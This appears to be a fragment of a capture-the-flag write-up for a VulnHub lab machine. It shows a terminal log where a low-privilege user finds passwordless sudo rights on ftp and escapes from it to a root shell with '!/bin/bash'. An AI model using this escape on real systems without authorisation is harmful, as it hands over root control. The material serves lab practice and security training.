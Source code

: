 ![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/InfinityStones/infinityStones2.png)


Privilege escalation


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
morag@ubuntu:/$ sudo -l
sudo -l
Matching Defaults entries for morag on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User morag may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/ftp
morag@ubuntu:/$ sudo /usr/bin/ftp
sudo /usr/bin/ftp
ftp> !/bin/bash
!/bin/bash
root@ubuntu:/# id
id
uid=0(root) gid=0(root) groups=0(root)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
